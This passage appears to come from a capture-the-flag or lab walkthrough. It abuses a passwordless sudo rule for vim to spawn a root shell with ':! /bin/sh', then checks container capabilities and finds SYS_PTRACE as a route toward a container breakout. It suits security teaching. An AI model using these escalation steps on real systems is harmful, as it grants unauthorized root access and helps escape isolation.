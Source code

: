 ```bash
sudo su
```

But we can't do that either

* We can try to list commands that we are allowed to run as superuser on the host.

```bash
sudo -l
```


* The current user can run vim on the /var/www/html/documents directory as root without using a password. This can allow us to escalate our privileges as vim in itself does feature an internal command line executor.

```bash
(root) NOPASSWD: /usr/bin/vim /var/www/html/documents
```

![](./images/03/03.png)


* Now we can try to get root access by running vim on the ``/var/www/html/documents`` directory with root privileges using the following command:

```bash
sudo /usr/bin/vim /var/www/html/documents
```

* Here we can try to spawn a shell through vims' internal command line executor by using the command after pressing the <escape> key:

```vim
:! /bin/sh
```

![](./images/03/04.png)

* We haven't come across an error, and have spawned a new shell. Run the below-mentioned commands to check if we have escalated our privileges.

```bash
whoami
id
```

And Hooray! we can see we are root here, but our task is not over yet. We need to break out of this container, so let's again try to list the capabilities for this docker container.

```bash
capsh --print
```

![](./images/03/05.png)

We can now see the ``Current:`` set of capabilities and one of those is ``SYS_PTRACE``. Thus this container can debug processes.


* Let's first list out the processes.
